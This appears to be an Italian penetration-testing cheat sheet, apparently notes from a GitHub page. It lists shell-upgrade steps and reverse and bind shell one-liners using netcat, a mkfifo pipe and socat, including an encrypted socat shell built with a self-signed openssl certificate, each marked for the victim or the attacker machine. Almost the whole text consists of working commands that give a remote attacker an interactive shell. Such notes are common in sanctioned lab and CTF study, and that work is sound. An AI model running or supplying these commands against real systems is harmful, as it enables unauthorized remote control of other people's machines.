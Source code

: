 # Upgrade Shell
Macchina Vittima
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Macchina Attaccante (segnare il numero di righe e colonne)
```bash
stty -a 
```
Macchina Vittima (sostituire il numero di righe e colonne con quelle segnate)
```bash
export TERM=xterm-256color
stty rows 38 columns 169
^Z
```
**RICORDA** ^Z = (Ctrl + Z)
Macchina Attaccante 
```bash
stty -raw echo; fg
```
-------------------------
# Reverse-shell
## nc
### Macchina attaccate
```bash
nc -lvnp <PORT>
```
### Macchina vittima
```bash
nc <MIO_IP> <PORT>
```
#### Reverse shell per OpenBSD netcat
Reverse shell per ambienti con netcat compilati senza il flag *-DGAPING_SECURITY_HOLE* (OpenBSD version)
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <MIO_IP> <PORT> >/tmp/f
```
## socat
Macchina  attaccante
```bash
socat -d TCP4-LISTEN:<PORT> STDOUT
```
Macchina vittima 
```bash
socat - TCP4:<MIO_IP>:<PORT> EXEC:/bin/bash
```
-------------------------
# Bind shell 
Macchina vittima
```bash
nc -lvnp 4242 -e /bin/bash
```
Macchina attaccante
```bash
nc <IP VITTIMA> <PORT>
```
### Encrypted Bind Shell
Inizialmente si ha la necessita di creare il certificato e la chiave privata per la creazione del canale cifrato 
```bash
#Generazione della chiave e del certificato
openssl req -x509 -newkey rsa:2048 -nodes -keyout rootCAKey.key -days 365 -out rootCACert.pem
#Combinare il certificato e la chiave per darlo in input a socat
cat rootCACert.pem rootCAKey.key > shell.pem
```
Macchina  vittima
```bash
socat OPENSSL-LISTEN:<PORTA>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Macchina attaccante 
```bash
socat - OPENSSL:<IP>:<PORTA>,verify=0
```